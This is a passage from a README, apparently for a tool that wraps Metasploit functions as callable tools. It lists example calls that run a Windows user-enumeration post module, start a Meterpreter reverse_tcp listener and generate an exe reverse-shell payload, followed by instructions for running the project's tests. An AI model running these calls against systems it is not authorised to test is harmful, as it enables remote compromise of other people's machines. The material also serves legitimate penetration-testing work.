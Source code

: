 1. Run a post module: `run_post_module("windows/gather/enum_logged_on_users", 1)`
2. Send custom commands: `send_session_command(1, "sysinfo")`
3. Terminate when done: `terminate_session(1)`

### Handler Management

1. Start a listener: `start_listener("windows/meterpreter/reverse_tcp", "192.168.1.10", 4444)`
2. List active handlers: `list_listeners()`
3. Generate a payload: `generate_payload("windows/meterpreter/reverse_tcp", "exe", {"LHOST": "192.168.1.10", "LPORT": 4444})`
4. Stop a handler: `stop_job(1)`

For complete tool documentation with detailed parameters, examples, and best practices, see **[TOOLS.md](TOOLS.md)**.

## Testing

This project includes comprehensive unit and integration tests to ensure reliability and maintainability.

### Prerequisites for Testing

Install test dependencies:

```bash
pip install -r requirements-test.txt
```

Or use the convenient installer:

```bash
python run_tests.py --install-deps
# OR
make install-deps
```

### Running Tests

#### Quick Commands

```bash
# Run all tests
python run_tests.py --all
# OR
make test

# Run with coverage report
python run_tests.py --all --coverage
# OR
make coverage

# Run with HTML coverage report
python run_tests.py --all --coverage --html
# OR
make coverage-html
```
